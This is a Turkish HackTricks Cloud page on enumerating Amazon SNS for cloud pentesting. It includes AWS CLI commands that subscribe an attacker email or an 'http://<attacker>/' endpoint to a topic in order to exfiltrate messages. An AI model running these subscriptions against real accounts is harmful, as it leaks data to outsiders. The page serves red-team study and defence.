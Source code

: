 # AWS - SNS Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SNS

Amazon Basit Bildirim Servisi (Amazon SNS), **tamamen yönetilen bir mesajlaşma servisi** olarak tanımlanır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kisi** (A2P) iletişim türlerini destekler.

A2A iletişimi için ana özellikler **yayınla/abone ol (pub/sub) mekanizmaları** içerir. Bu mekanizmalar, yüksek verimli, **itme tabanlı, çoktan çoğa mesajlaşmayı** sağlamak için kritik olan **konuları** tanıtır. Bu özellik, dağıtık sistemler, mikro hizmetler ve olay odaklı sunucusuz mimariler içeren senaryolar için son derece avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistemi yelpazesine** verimli bir şekilde dağıtabilir, böylece bir fanout mesajlaşma modeli oluşturur.

### **SQS ile Fark**

**SQS**, **kuyruk tabanlı** bir hizmettir ve nokta-nokta iletişimi sağlar, mesajların **tek bir tüketici** tarafından işlenmesini garanti eder. **En az bir kez teslimat** sunar, standart ve FIFO kuyruklarını destekler ve mesajların yeniden denemeler ve gecikmeli işleme için saklanmasına izin verir.\
Öte yandan, **SNS** bir **yayınla/abone ol tabanlı hizmettir**, mesajları **birden fazla aboneye** aynı anda yayınlayarak **birden bire** iletişimi sağlar. **E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS** gibi çeşitli abonelik uç noktalarını destekler ve hedefli mesaj teslimatı için filtreleme mekanizmaları sunar.\
Her iki hizmet de dağıtık sistemlerde bileşenler arasında ayrıştırma sağlasa da, SQS kuyruklu iletişime odaklanırken, SNS olay odaklı, fan-out iletişim modellerine vurgu yapar.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Not edin ki eğer **konu FIFO türündeyse**, yalnızca **SQS** protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` bölgeyi içeriyor olsa bile, **`--region`** parametresinde doğru bölgeyi belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığına dair bir hata alırsınız, ancak sorun bölgedir.
{% endhint %}

#### Kimlik Doğrulaması Olmayan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### İstismar Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Süreklilik

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
